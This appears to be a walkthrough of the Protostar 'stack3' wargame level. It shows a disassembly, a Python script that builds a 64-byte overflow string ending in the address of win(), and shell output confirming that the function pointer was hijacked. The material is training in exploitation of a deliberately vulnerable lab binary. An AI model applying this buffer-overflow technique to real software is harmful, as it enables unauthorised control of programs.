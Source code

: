 ```bash
0x08048465 <main+45>:   mov    %edx,0x4(%esp)
0x08048469 <main+49>:   mov    %eax,(%esp)
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    0x5c(%esp),%eax
0x08048475 <main+61>:   call   *%eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
End of assembler dump.
```

Here we need exploit the quirky way that fp is defined in the code, whereas it can be executed as a function. We need to have the `fp()` call point to the `win()` function `0x08048424`.

Python script to create exploit string:
```python
# 64 char buffer
buffer = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
# win() start address 
block = "\x24\x84\x04\x08" 
print buffer + block
```

Test and output this string to file: 
```bash
user@protostar:/tmp$ python stack3.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP$�
user@protostar:/tmp$ python stack3.py > stack3
```

Pipe this into stack3 and we have lift off!
```bash
user@protostar:/tmp$ cat stack3 | /opt/protostar/bin/stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
